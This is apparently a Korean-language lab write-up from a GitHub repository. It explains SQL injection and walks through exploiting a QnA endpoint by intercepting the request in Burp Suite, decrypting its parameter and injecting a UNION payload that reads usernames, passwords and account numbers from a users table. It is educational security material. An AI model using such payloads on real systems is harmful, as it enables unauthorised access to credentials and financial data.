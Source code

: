 # SQLI 공격
---
## 1. SQLI 공격이란?
---
+ 사용자의 입력 값으로 웹 사이트 SQL 쿼리가 완성되는 약점을 이용하며, 입력 값을 변조하여 비정상적인 SQL 쿼리를 조합하거나 실행하는 공격이다. 
+ 해당 취약점이 존재하는 경우 비정상적인 SQL 쿼리로 DBMS 및 
데이터(Data)를 열람하거나 조작 가능하므로 사용자의 입력 값에 대한 필터링을 구현하여야 한다.

---
## 2. 공격 방법
---
Burp suite로 QnA 게시판(/api/qna/view) 요청을 가로챈다.

![버프로잡은화면](https://user-images.githubusercontent.com/115529661/200977942-95309400-1560-4f96-9c47-bdd4911a10d4.jpg)

요청 body의 enc_data를 복호화하면 qna_id가 전달되는 것 확인할 수 있다.

![qna_id확인](https://user-images.githubusercontent.com/115529661/200978257-ce5eb74c-c1a8-416d-aac0-81d12b22f093.jpg)

qna_id에 넣을 SQL 쿼리문이다.
```js
{"qna_id":"false UNION select username as title, password as content, account_number as write_at from users where true LIMIT 1,2; -- "}
```
Injection할 쿼리문을 포함한 JSON을 암호화한다.
```js
encrypt('{"qna_id":"false UNION select username as title, password as content, account_number as write_at from users where true LIMIT 1,2; -- "}');
```
![쿼리암호화](https://user-images.githubusercontent.com/115529661/200978302-b40fe385-5de5-4bf0-a091-79cb40fed626.png)

앞에서 암호화한 데이터를 요청에 넣어 보냈다.

![암호화한 데이터 송신](https://user-images.githubusercontent.com/115529661/200978464-1bf4a821-aa09-4e24-a3c5-5426fad26200.jpg)

응답값을 복호화해서 쿼리문 결과 확인할 수 있다.

![결과확인](https://user-images.githubusercontent.com/115529661/200978704-d8c4e842-44a3-4d0f-a559-07d533e9b402.jpg)

**암호화,복호화 확인 넣어야함

---
